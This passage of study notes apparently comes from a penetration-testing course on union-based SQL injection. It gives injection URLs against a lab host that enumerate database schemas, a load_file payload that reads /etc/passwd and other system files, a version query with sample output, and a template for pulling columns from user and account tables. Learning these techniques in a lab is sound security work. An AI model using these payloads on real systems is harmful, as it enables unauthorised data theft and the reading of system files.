 #### 5. Extract desired information

##### 5.1 SQL Injection Filtering (WHERE)

http://10.50.21.144/uniondemo.php?Selection=2 UNION select table_schema,coolumn.name,table_name from information_schema.columns where table_schema='session'

- this gets rid of the default schema's from your SQL injection query


##### 5.2 SQL Injection - Functions (LOAD_FILE())
- UNION select 1,2,load_file('/etc/passwd')

/etc/passwd
/etc/group
/etc/networks
/etc/hosts
/etc/resolv.conf

##### 5.3 SQL Injection - SQL Version (@@version)

SELECT 1,2,@@version

> 10.1.48-MariaDB-0Ubuntu0.18.04.1

##### 5.4 SQL Injection Considerations - Escaping Characters

[site](https://dev.mysql.com/doc/refman/8.0/en/string-literals.html)



# EDITING AN SQL GOLDEN STATEMENT

**BASIC FORMAT: website/file.php?selection=x UNION select column,column,column from schema.table**

```
basic order of precedence for an sql table is as follows:
	schema -> table -> column
	


lets say you are given the followng table:
---------------------------------------------------
siteusers 	customer 	$id
siteusers 	customer 	$name
siteusers 	customer 	$account
siteusers 	customer 	$category
siteusers 	customer 	$description
siteusers 	net_products 	$id
siteusers 	net_products 	$quantity
siteusers 	net_products 	$product
siteusers 	net_products 	$price
siteusers 	purchase_history 	$id
siteusers 	purchase_history 	$quantity
siteusers 	purchase_history 	$product
siteusers 	purchase_history 	$account
siteusers 	shippingdates 	$id
siteusers 	shippingdates 	$ordernumber
siteusers 	shippingdates 	$account
siteusers 	shippingdates 	$date
siteusers 	users 	$user_id
siteusers 	users 	$name
siteusers 	users 	$username
-----------------------------------------------------


BASIC FORMAT: website/file.php?selection=x UNION select column,column,column from schema.table
```